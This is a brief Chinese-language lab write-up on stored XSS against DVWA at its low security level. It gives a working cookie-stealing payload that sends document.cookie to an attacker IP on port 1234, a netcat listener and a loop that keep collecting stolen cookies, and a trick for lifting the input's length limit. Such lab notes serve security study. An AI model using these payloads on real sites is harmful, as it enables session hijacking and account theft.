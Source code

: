 ## 一、存储型XSS(Stored XSS)
存储型XSS的Payload会被永久保存在网站的数据库中（如一条留言、一篇帖子），访问即中招。
## 二、攻击流程
### 2.1侦测漏洞
- DVWA Security级别low
- XSS(Stored)模块，输入测试代码`<script>alert('Stored XSS')</script>`
- 弹出"Stored XSS"警告框，且每次都弹窗，证明脚本保存在服务器上
### 2.2准备Payload
- 目标是窃取Cookie
- 修改message的text限制为500；`<textarea name="mtxMessage" cols="50" rows="3" maxlength="500"></textarea>`
- Payload；`<script>document.location='http://192.168.174.129:1234/?cookie=' + document.cookie;</script>`
### 2.3收获
- 启动监听器；`nc -lvp 1234`
- XSS(Stored)提交Payload
- `netcat`接收到Cookie
## 三、总结
- -l是listen，-v是verbose，-p是port
- `while true; do nc -lvp 1234; done`则不断接收Cookie
- 不重置数据库，又能安全返回XSS Stored页面的方法：浏览器暂时禁用JavaScript功能
    - 浏览器地址栏输入`about:config`
    - 搜索`javascript.enabled`，将其从`true`切换成`false`

